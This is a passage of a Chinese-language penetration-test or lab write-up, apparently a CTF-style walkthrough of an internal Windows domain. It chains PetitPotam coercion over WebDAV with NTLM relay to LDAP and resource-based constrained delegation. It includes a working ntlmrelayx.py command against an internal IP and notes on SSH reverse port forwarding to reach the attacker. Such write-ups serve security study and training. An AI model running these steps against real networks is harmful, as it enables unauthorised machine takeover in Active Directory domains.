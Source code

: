 ![image-20241118201710111](images/12.png)

扫到了petitpotam，此时还拿到了两个可用的账户，拿可以配置petitpotam配合webdav打ntlm的强制认证来配合rbcd拿下webdav这台机器的权限

```
1、用petitpotam触发目标访问HTTP服务
2、目标使用webclient携带NTLM认证访问中继，并将NTLM认证中继到LDAP
3、获取到机器账号身份
4、以机器账户的身份修改其自身的msDS-AllowedToActOnBehalfOfOtherIdentity属性，从而允许我们访问到目标机器。
```

此时有机器账户，就不需要再去创建新的机器账户了，监听如下

```
python3 ntlmrelayx.py -t ldap://172.22.11.6 --no-dump --no-da --no-acl --escalate-user 'xr-desktop$' --delegate-access
```

有个需要注意的问题，就是这是内网的机器，所以不能回连到我们本地监听到端口，所以需要借助外网的Ubuntu服务器，通过SSH的反向端口转发监听到本地，这样强制认证的ip走ubuntu，其实认证的是我们本地

写ssh的过程就略过了

![image-20241118203513251](images/13.png)
